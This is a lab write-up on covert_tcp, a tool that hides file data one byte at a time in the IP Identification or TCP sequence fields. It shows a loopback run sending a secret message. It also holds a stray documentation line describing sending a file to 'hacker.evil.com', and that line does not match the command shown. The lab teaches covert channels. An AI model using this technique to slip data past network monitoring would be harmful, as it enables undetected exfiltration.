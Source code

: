 ```
-ipid - Encode data a byte at a time in the IP packet ID.  [DEFAULT]
-seq  - Encode data a byte at a time in the packet sequence number.
-ack  - DECODE data a byte at a time from the ACK field.
        This ONLY works from server mode and is made to decode
        covert channel packets that have been bounced off a remote
        server using -seq. See documentation for details
```

This lab can either be set up on the same host machine or using two separate ones.  In this write-up, I set up the two endpoints on the same host using the loopback interface lo and its associated IP address of 127.0.0.1.  

The first section of this lab covers encoding the IP Identification field and the second section encodes the TCP Initial Sequence Number (ISN) field.

### 1. Encoding the IP Identification Field

Next, we set up the endpoint hosts. This experiment requires three terminal windows for the client, server, and tcpdump listener.  

#### In Terminal 1 (Client / Sender):

First, the client creates a text file with the secret message to send the server:

```console
clarissa@ubuntu:~/client$ echo "SECRET MESSAGE" > secret.txt
```

After the server is running, the client executes the below command to connect with the server and send a file via the IP Identification field encoding.  Many of the program's default values are used including the destination port 80 and the IP ID encoding type.

Above sends the file secret.c to the host hacker.evil.com a byte
at a time using the default IP packet ID encoding.

{% highlight console %}
clarissa@ubuntu:~/client$ sudo ../covert_tcp -source 127.0.0.1 -dest 127.0.0.1 -file secret.txt
[sudo] password for clarissa:
Covert TCP 1.0 (c)1996 Craig H. Rowland (crowland@psionic.com)
Not for commercial use without permission.
Destination Host: 127.0.0.1
Source Host     : 127.0.0.1
Originating Port: random
Destination Port: 80
Encoded Filename: secret.txt
Encoding Type   : IP ID

Client Mode: Sending data.

Sending Data: S
Sending Data: E
Sending Data: C
Sending Data: R
Sending Data: E
Sending Data: T
Sending Data:  
Sending Data: M
Sending Data: E
Sending Data: S
Sending Data: S
Sending Data: A
Sending Data: G
Sending Data: E
Sending Data:
{% endhighlight %}
